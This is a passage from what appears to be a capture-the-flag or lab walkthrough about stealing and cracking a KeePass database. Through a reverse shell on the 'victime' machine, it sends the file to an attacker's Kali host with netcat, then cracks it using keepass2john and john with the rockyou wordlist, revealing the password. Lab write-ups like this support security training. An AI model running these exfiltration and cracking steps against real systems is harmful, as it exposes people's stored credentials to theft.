



4.5 Cracking a "keepass db" file
Keepass
KeePass is a free open source password manager, which helps you to manageyour passwords in a secure way. You can store all your passwords in onedatabase, which is locked with a master key. So you only have to remember onesingle master key to unlock the whole database. Database files are encryptedusing the best and most secure encryption algorithms currently known(AES-256, ChaCha20 and Twofish).For more information, see the features page.
Keepass files extension is “kdbx”.
As you can see in the previous step we have a file called “
.chadroot.kdbx” on our victime machine.1. Send the file to your Kali Machine with “Netcat". On your Kali Machine run.
$nc -l -p 7555 > .chadroot.kdbx
2. On your "Reverse shell" run the following command. (Remember you are in the “/home/raphael” directory")
$nc 192.168.12.10 7555 < .chadroot.kdbx
3. On your Kali Machine list the files.
$ls -la
Output:

4. Crack the “
.chadroot.kdbx” password with “keepass2john” to make it crackeable with “john”. On your Kali Machine run the following code.$keepass2john .chadroot.kdbx > chadjohn
Output:

5. Crack the file with “john”.
$john --wordlist=/usr/share/wordlists/rockyou.txt chadjohn
Output:

The passwsord is “chatter”.